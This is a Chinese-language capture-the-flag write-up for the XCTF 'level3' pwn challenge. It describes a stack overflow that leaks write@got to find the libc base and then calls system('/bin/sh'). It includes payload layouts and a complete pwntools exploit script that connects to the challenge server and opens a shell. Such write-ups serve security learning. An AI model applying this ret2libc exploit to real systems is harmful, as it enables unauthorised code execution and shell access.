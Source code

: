 # wp
转载自 XCTF攻防世界 level3 https://www.52pojie.cn/thread-1032651-1-1.html

首先，检查一下程序基本信息：

![Alt text](pwn_50_level3.md1.png)

程序很简单，保护开的也差不多。但是需要注意，这道题单独给出了libc，而且根据题目提示，程序中没有现成的system函数。这就需要我们从libc中动态加载system函数。

初步思路：PIE没有开启，那么在libc中函数的offset就是固定的，只要确认了libc的base address，然后计算出system函数的offset，就可以定位到system函数的真实地址，实现调用。

IDA查看源码：
* strings查看一下是否有明显的字符串信息：

![Alt text](pwn_50_level3.md2.png)


从字符串信息来看，没有明显的可以利用的字符串，函数也只有write和read，在某些情况下这两个函数可以构造溢出，先留心一下。

- main函数：


![pwn_50_level3.md3](pwn_50_level3.md3.png)

没有明显的问题，直接进入vulnerable_function()

- vulnerable_function函数：


![pwn_50_level3.md4](pwn_50_level3.md4.png)

有一个缓冲区buf，在read函数中进行了调用。可以进行溢出。

**攻击思路：**
libc中的函数的相对地址是固定的，要想获取到system函数的地址，可以通过write()函数进行offset计算。

1. 首先利用write()函数计算出write()函数的真实地址；
2. 利用相对offset计算出system和"/bin/sh"的真实地址。

在vulnerable_function()中，先调用了write()函数，然后调用read()函数。write()函数返回到vulnerable_function()后，再进行read()函数调用，这样我们就可以进行二次攻击。

* 第一次攻击我们利用栈溢出将write()函数在got表中的真实地址leak出来，然后减去libc中的offset，就可以得到libc的base address。

* 第二次攻击重新进入main函数，再次通过栈溢出，利用system函数进行getshell。

两次攻击stack中的情况：

| First stack | Second stack |
| ----------- | ------------ |
| 'A'*0x88    | 'A'*0x88     |
| EBP         | EBP          |
| write@plt   | sys_addr     |
| main_addr   | 0xdeadbeef   |
| 1           | bin_sh_addr  |
| write@got   | XXXX         |
| 0xdeadbeef  | XXXX         |

这样的话，第一次使用的payload构成如下：

**payload = 'A'*0x88 + p32(0xdeadbeef) + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(0xdeadbeef)**


利用第一次攻击，就可以获取到libc的基地址。然后进行第二次攻击，使用的payload构成为：


**payload0 = 'A'*0x88 + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)**


中间涉及到几个地址的计算，各地址的计算方式如下：

| Address     | Calculate                              |
| ----------- | -------------------------------------- |
| libc_addr   | write_got_addr - libc.symbols['write'] |
| sys_addr    | libc_addr + libc.symbols['system']     |
| bin_sh_addr | libc_addr + 0x15902b                   |

```
备注：0x15902b是"/bin/sh"在libc中的地址，可以使用libcsearch进行获取，也可以使用 strings -a -t x libc_32.so.6 | grep "/bin/sh" 进行获取。此外，还有一个libcSearcher可以使用，有兴趣的可以研究一下。
```

这样的两次攻击下来，就可以使用libc中的system函数进行"/bin/sh"的调用，从而getshell。

## EXP:

```python
from pwn import *
 
sh = remote('111.198.29.45',53033)
#sh=process('./level3')
 
#context.log_level = 'debug'
elf=ELF('./level3')
libc=ELF('./libc_32.so.6')
 
#get func address
write_plt = elf.plt['write']
write_got = elf.got['write']
main_addr = elf.symbols['main']
 
payload = 'A'*0x88 + p32(0xdeadbeef) + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(0xdeadbeef)
 
sh.sendlineafter("Input:\n",payload)
 
#leak write's addr in got
write_got_addr = u32(sh.recv()[:4])
print 'write_got address is',hex(write_got_addr)
 
#leak libc's addr
libc_addr = write_got_addr - libc.symbols['write']
print 'libc address is',hex(libc_addr)
 
#get system's addr
sys_addr = libc_addr + libc.symbols['system']
print 'system address is',hex(sys_addr)
 
#get bin/sh 's addr    strings -a -t x libc_32.so.6 | grep "/bin/sh"
#libc.search("/bin/sh").next()
bin_sh_addr = libc_addr + 0x15902b
print '/bin/sh address is',hex(bin_sh_addr)
 
#get second payload
payload0 = 'A'*0x88 + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)
 
sh.sendline(payload0)
sh.interactive()
```

执行完成后，可以成功拿到flag：

 ![pwn_50_level3.md5](pwn_50_level3.md5.png)

## 总结

这道题感觉才算真正开始入门pwn的栈溢出，遇到了没有system和"/bin/sh"的情况，思路也比较好玩，需要一定的技巧和脑洞才能完成这道题。可能在大师傅们的眼里很简单，但是对于刚入门pwn的小白来说，这道题很值得玩味，挺有价值的。 此外，需要花一定的时间学习一下pwntools，这玩意真的是pwn题的神器233333。



